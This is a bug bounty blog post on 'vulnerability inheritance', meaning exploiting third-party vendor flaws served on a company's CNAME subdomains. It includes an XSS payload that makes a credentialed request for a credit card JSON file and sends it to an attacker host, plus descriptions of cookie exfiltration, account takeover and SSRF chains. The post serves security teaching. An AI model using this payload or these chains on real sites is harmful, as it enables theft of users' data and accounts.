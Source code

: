 ```yaml
---
layout: single
title: Exploitation through vulnerability inheritance - Attacking companies and scoring bounties through 3rd party integrations
date: 2021-02-15
classes: wide
header:
  teaser: /images/3rdparty_teaser.png
tags:

  -BugBounty
--- 
```


**Exploitation through vulnerability inheritance - Attacking companies and scoring bounties through 3rd party integrations**

![preview](/images/3rdparty_teaser.png)

## Agenda

During my last couple of months engaging with bug bounties on companies who hold responsible disclosure policy, I have encountered what might be called as some sort of routine, which helped me score bounties on companies regardless of their size.

This is due to what I will refer on this blog post as "Vulnerability Inheritance"

In this blog I'll cover the following:

![preview](/images/agenda.png)


### General

In today’s world, software companies are growing rapidly and so the need for new designs and features to implement ontop of the company current niche, which draws large portion of the software developers attention.

Companies will opt to “adopt” 3rd party services to achieve certain functionality goals, which would give them a "cheap" and time rewarding solution instead of investing manpower on maintaining and devloping certain "sideways" features which are already being maintaned and constantly developed by big companies.

While doing so is indeed rewarding and has many benefits, it do come out with a security price which needs to be considered and handeld correctly by the companies.

The 2 main methods in which we can integrate 3rd party services within our company domains are the following:

![2ways](/images/2ways.png)

The main area which I will cover are within the CNAME and A records integrations, for <script> and <iframe> integrations, there are several vulnerabilities which can arise and I'd suggest watching our Chief Architect at enso.security talk about postMessage exploitations which we had given earlier this year.

**Understanding CNAMES and A records**

CNAME records can be used to alias one name to another. CNAME stands for Canonical Name.
A common example is when you have both example.com and www.example.com pointing to the same application and hosted by the same server. 
To avoid maintaining two different records, it’s common to create:
* An A record for example.com pointing to the server IP address
* A CNAME record for www.example.com pointing to example.com

As a result, example.com points to the server IP address, and www.example.com points to the same address via example.com. If the IP address changes, you only need to update it in one place: just edit the A record for example.com, and www.example.com automatically inherits the changes.

**Understanding CNAMES and A records DNS flow**

![dns_cname](/images/cname_dns.png)

By observing the DNS flow above, you could already start to glimpse the point why security vulnerabilities are being arised from integrations as such.

There are 2 ways to implement 3rd party integrations through DNS records:

* Assigning a CNAME record from a subdomain to the 3rd party service, by doing so we "alias" the contents from the 3rd party website to serve on our subdomain.

* Assigning A record to an IP address which will run the vendor's service with slight modificatitions.

![flow_nagli](/images/flow.png)

After understanding the basics, we can dive deeper into the threat and attack models section

### Threat and attack models

![threat](/images/threat.png)

As we approach the threats and attack models phase, we need to understand that the main attack vectors we will look for are **Client Side Vulnerabilities**, this should make sense by now as we are attacking the company subdomain which is being served as an alias to third party service, in other words:

Achieveing RCE on the target would actually mean that we have remote code execution on the vendor's server
Achieving SSRF on the target would actually mean that we have Server Side Request Forgery from the vendor's IP
Achieveing XXE on the target would actually mean that we have XML External Entity attack on the vendor's server

Those attacks are severe and can affect the subdomain we are targeting, but as for the impact we are going for to the actual company we are targeting, it will still remain within the same attack models that we can achieve from Client Side Vulnerabilities on the specific subdomain.

I believe that Subdomain takeovers and Dangling dns records are wide known and understood with the community, there are bunch of great tutorials and explanations on these attacks and It's not the main discusstion area of the blog, yet it has to be mentioned and I'll share on the reconnaissance my methodology targeting and automatic the process of finding those.

![tko](/images/tko.png)

![dangling](/images/dangling.png)

Now, let's dive into the main part of the talk.

Client side vulnerabilities such as Cross Site Scripting and Open Redirects are often considered the most common bugs to be found by bug bounty hunters, as such many defence measures are being integrated and considered by companies todays such as implementing CSP (Content-Security-Policy), Deploying a WAF (Web Application Firewall), strict regex controls and sanitizing user input on all fields at all costs (Almost an impossible task).

Those solutions are good, although there are many WAF and CSP Bypasses which are being discovered from time to time, it will mostly do good job with protecting your companies domain from the straight forward attacks.

**But**,
When we integrate 3rd party service to our domain by pointing to it with a CNAME or A record, we are serving an alias of the vendors website, and the defense measures which we have taken throught the entire development process are no longer effective.

Upon integration we are being 100% dependent on the vendors security policy regarding vulnerabillities.

And this is where the **"Vulnerability Inheritance"** part comes to play, whenever we decide to integrate a new service, we will inherit it's entire security flaws to be served under our domain.

Let's take a quick look on the matter:

Assume we have found Stored XSS on a third party vendor, let's say on .welearn.com, and the company which we are targeting - target.com has a subdomain named study.target.com which points to target.welearn.com, target.com is well protected with strict CSP in place and up to date WAF.

Because study.target.com is a CNAME, it won't have any of these protections inplace, which could have blocked the XSS we have found on the 3rd party vendor.

Now, we will navigate to the subdomain and execute the XSS, as we could have anticipated it's affecting website as well as the vendors website, and the document.domain of the execution is being changed accordingly. 

![xss](/images/xss.png)

That's nice, so we found a vulnerability on a subdomain of our target.com company, and we have done so without tackling any of the defense in depth security measures being implemented on their domains. it's already a valid vulnerability if the company has wildcard domain inscope for assessment.

As I have encountered from time to time with my assessments, often the targeted companies won't realize the impact for such vulnerabilities, and they can issue a generic response as:

"Nice find, although the subdomain you have targeted is affecting 3rd party service which isn't under our control, and there is no impact by doing so."

The vulnerability itself indeed cannot be resolved by the company which we target, and they best mitigation considering the severity is to take down the website for maintanence until the vendor will fix it's flows.

Regarding the impact, it's subjective to the companies design and implementations, and it could be used as a chain to more severer actions.

**Bypassing CORS protections**

To those who are unfamilliar with the **Cross Origin Resource Sharing** mechanism:

Cross-Origin Resource Sharing (CORS) is an HTTP-header based mechanism that allows a server to indicate any other origins (domain, scheme, or port) than its own from which a browser should permit loading of resources.

Upon examining the main functions of our target website, if we come across the following set of headers and there is sensitive data being returned on the page, we defintly should stop and investigate what happens:

```javascript
Access-Control-Allow-Origin: https://galnagli.com
Access-Control-Allow-Credentials: true
```

When responding to a credentialed request, the server must specify an origin in the value of the Access-Control-Allow-Origin header, instead of specifying the `*` wildcard.

We want to make a request with the Access-Control-Allow-Credentials: true header, as it would allow fetching data with the user credentials attached (as authenticated personal).

Targets who set their CORS policy could have it assigned as "Wildcard" whenever dealing with requests which doesn't require authentication.
And as defense mechanism they would allow specifing the origin on authenticated requests only to be scope for the targets subdomains, such as 

```javascript
*.galnagli.com
```

It means that if we want to initiate a request from a subdomain of our target, we will specify it's name on the Allow-Origin header, which will look like the following:

```javascript
Access-Control-Allow-Origin: https://study.galnagli.com
Access-Control-Allow-Credentials: true
```

Now, as we have discovered Cross Site Scripting vulnerability on that subdomain, and although it occurres because of the 3rd party vendor misconfigurations, the origin of execution is being tied to our subdomain, which is inscope of making credential requests to the main domain as per our target configuration.

We can use our XSS to fetch sensitive information which is being stored on the parent domain by issuing a script similar to:

```javascript
<script>
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://galnagli.com/creditcard.json',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
</script>
```

Storing this as the Cross Site Scripting payload will send to our attacker controlled server the creditcard.json authenticated response for each visitor who visits the affected subdomain and executes the script.


**Cookies exfiltration**

When companies are setting up cookies on their main websites, they tend to configure them with domain attribute, with makes them accessible and stored on the respective subdomains as well.

As per MDN:
```
Domain attribute
The Domain attribute specifies which hosts are allowed to receive the cookie. If unspecified, it defaults to the same host that set the cookie, excluding subdomains. If Domain is specified, then subdomains are always included. Therefore, specifying Domain is less restrictive than omitting it. However, it can be helpful when subdomains need to share information about a user.

For example, if Domain=mozilla.org is set, then cookies are available on subdomains like developer.mozilla.org.
```

It means that if we manage to find XSS vulnerability on our subdomain, we can exfiltrate the cookies which are being set on the parent domain, only if they are not protected by HTTPOnly flags.

We can use the cookies attached to issue requests from the victim perspective (such as CSRF attacks) regardless of the cookies being set to HTTPOnly.

![cookie](/images/cookie.png)

**Business Logic Errors**

Similar to the impact of subdomain takeover, instead of stealing the domain and to show a generic alert popup from that subdomain, we can use that subdomain to demonstrate legitimate service claiming to be on behalf of the original domain, while its actually being managed by the attacker.

Let's take to an example if we managed to takeover a shopify domain of the target domain, served on shop.target.com:

![business](/images/business.png)

**Open Redirect as a chain**

Assuming we have found open redirect on our vulnerable 3rd party vendor, which affects our subdomain shop.galnagli.com.
This could be used as a chain to more severe attacks, some companies would accept the open redirect as P4, but this should be considered last resort after trying to achieve greater affect and impact through different and more severe vulnerabilities such as Account Takeover or SSRF Bypasses.

**Account Takeover**

Let's take a look at the following example:

![redirectko](/images/redirect_tko.png)

While this issue looks straight forward like regular open redirect to account takeover, it's not that case so often.
Because we have another location to redirect through, we will often encounter a redirection chain which won't carry the authentication code throughout the entire process, we need to have certain redirection which fetches and issues the call through the DOM of certain page, and only redirects to the final domain from the original initiator

```javascript
https://galnagli.com - > https://shop.galnagli.com -> https://sadf.burpcollaborator.com - Most likely won't carry the auth code.
https://galnagli.com - > **middleman redirection processing page** -> https://sadf.burpcollaborator.com - Most likely will work.
```


**SSRF Bypass**

Similar to the previous vulnerable scenario, we can achieve SSRF by bypassing allowed whitelisted wildcard urls at certain scenarios.

![ssrf](/images/ssrf.png)

### Reconnaissance

### Practical exploitations

### Takeaways


